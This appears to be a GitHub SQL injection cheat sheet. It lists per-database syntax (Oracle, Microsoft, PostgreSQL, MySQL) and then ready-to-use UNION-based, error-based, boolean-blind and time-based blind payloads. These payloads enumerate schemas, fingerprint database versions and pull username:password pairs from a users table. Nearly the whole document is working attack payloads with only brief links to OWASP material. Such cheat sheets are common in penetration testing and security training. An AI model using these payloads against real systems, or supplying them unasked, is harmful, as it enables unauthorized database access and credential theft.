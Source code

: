 <h1>SQL Injection Cheat Sheets</h1>
<p>This contains examples of useful syntax to perform SQL injection Attacks.</p>

<a href="https://github.com/kaung-khant-zaw223/cheat-sheets/blob/main/SQL_Injection_ByPass_Payloads.md">SQL Injection Bypass Payloads</a>

<h2>String Concatenation</h2>
<p><b>Oracle      :</b> 'foo'||'bar'</p>
<p><b>Microsoft   :</b> 'foo'+'bar'</p>
<p><b>PostgreSQL:</b> 'foo'||'bar' </p>
<p><b>MySQL:</b> 'foo' 'bar'</p>

<h2>Substring</h2>
<p><b>Oracle:</b> SUBSTR('foobar', 4, 2)</p>
<p><b>Microsoft:</b> SUBSTRING('foobar', 4, 2)</p>
<p><b>PostgreSQL:</b> SUBSTRING('foobar', 4, 2)</p>
<p><b>MySQL:</b> SUBSTRING('foobar', 4, 2)</p>

<h2>Comments</h2>
<p><b>Oracle:</b> --comment</p>
<p><b>Microsoft:</b> --comment (or) /*comment*/ </p>
<p><b>PostgreSQL:</b> --comment (or) /*comment*/ </p>
<p><b>MySQL:</b> #comment (or) --comment (or) /*comment*/</p>

<h2>Database Version</h2>
<p><b>Oracle:</b> SELECT banner FROM v$version (or) SELECT version FROM v$instance</p>
<p><b>Microsoft:</b> SELECT @@version</p>
<p><b>PostgreSQL: </b> SELECT version()</p>
<p><b>MySQL:</b> SELECT @@version </p>

<h2>Database Contents</h2>
<p><b>Oracle:</b> SELECT * FROM all_tables (or) SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE' </p>
<p><b>Microsoft:</b> SELECT * FROM information_schema.tables (or) SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' </p>
<p><b>PostgreSQL:</b> SELECT * FROM information_schema.tables (or) SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' </p>
<p><b>MySQL:</b> SELECT * FROM information_schema.tables (or) SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' </p>

<h2>Conditional Errors</h2>
<p><b>Oracle:</b> SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual</p>
<p><b>Microsoft:</b>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END</p>
<p><b>PostgreSQL:</b>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END</p>
<p><b>MySQL:</b>SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')</p>

<h2>UNION BASED</h2>
<p>order by </p>
<p>union select</p>
<p>group_concat(table_name) from information_schema.tables where table_schema=database()</p>
<p>group_concat(column_name) from information_schema.columns where table_name='table_name'</p>
<p>group_concat(data) from table_name</p>

<h2>ERROR BASED</h2>
<b>Intro</b><br> 

SELECT count(*) from information_schema.tables;<br>
SELECT rand();<br>
SELECT floor(1.5);<br>
select 1 from y;<br>
select count(*),username from users group by username;<br>

<b>Variable</b><br>
SELECT count(*),CONCAT((SELECT @@version),0x3a,rand()) x FROM information_schema.tables group by x;<br>
SELECT @x;<br>
######
SELECT count(*),CONCAT((SELECT @@version),0x3a,floor(rand()*2)) x FROM information_schema.tables group by x;<br>
SELECT @x;<br>

<b> Version</b><br>
AND (SELECT 1 FROM (SELECT count(*),CONCAT((SELECT @@version),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y)<br>

<b>Table</b><br>
AND (SELECT 1 FROM (SELECT count(*),CONCAT((SELECT (table_name) from information_schema.tables where table_schema=database() limit 0,1),0x3a,FLOOR(RAND(0)*2)) x<br> FROM information_schema.tables GROUP BY x) y)<br>
<h2>BLind</h2><br>
<a href="https://owasp.org/www-community/attacks/Blind_SQL_Injection">https://owasp.org/www-community/attacks/Blind_SQL_Injection</a><br>
<a href="https://www.sqlinjection.net/time-based/">https://www.sqlinjection.net/time-based/</a><br>
<h2>Boolean Based Blind</h2>
<b>Intro</b><br>
select substr('abcde',1,1);<br>
select ascii('a');<br>
select ascii(substr(@@version,1,1));<br>

<b>True or False</b><br>
select ascii(substr(@@version,1,1)) < 50;<br>
select ascii(substr(@@version,1,1)) < 40;<br>
select ascii(substr(@@version,1,1)) = 49;<br>

<b>Testing</b><br>
1 and 1=1 -> True<br>
1 and 1=2 -> False<br>

<b>Version</b><br>
and ascii(substr(@@version,1,1)) = 49 -> First Character<br>
and ascii(substring(version(),2,1)) = 48 -> Second Character<br>

<b>Table</b><br>
and ascii(substring((select concat(table_name) from information_schema.tables where table_schema=database()),1,1)) > 100<br>
<b>Column Name</b><br>
select column_name from information_schema.columns where table_name='' limit 0,1<br>
<b>Data From Column</b><br>
select concat(username,0x3a,password) from users limit 0,1<br>
<i>Change value between {} of limit {0},1</i><br> 

<h2>Time Based Blind</h2>
<b>Intro</b>
SELECT IF(500<1000, "YES", "NO");<br>
sleep(5);<br>
and if(500<1000, sleep(5), NULL) -> Sleep<br>
and if(500>1000, sleep(5), NULL) -> Do Not Sleep<br>

<b>Version</b><br>
and if(ascii(substr(version(),1,1)) = 49, sleep(5), NULL)<br>

<b>Table</b><br>
and if(ascii(substr((select concat(table_name) from information_schema.tables where table_schema=database()),1,1)) > 100, sleep(5), NULL)<br>
